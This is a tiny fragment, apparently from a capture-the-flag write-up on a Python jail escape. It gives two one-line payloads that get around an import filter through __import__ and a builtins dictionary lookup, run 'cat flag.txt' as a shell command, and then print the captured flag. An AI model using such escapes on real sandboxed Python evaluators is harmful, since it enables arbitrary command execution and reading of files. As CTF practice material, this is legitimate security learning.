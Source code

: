 __import__("os").popen("cat flag.txt").read()
__builtins__.__dict__['__IMPORT__'.lower()]("subprocess").__dict__['getoutput']("cat flag.txt")
MONSEC{pytj0n_j@1ls_@r3nt_s3cur3}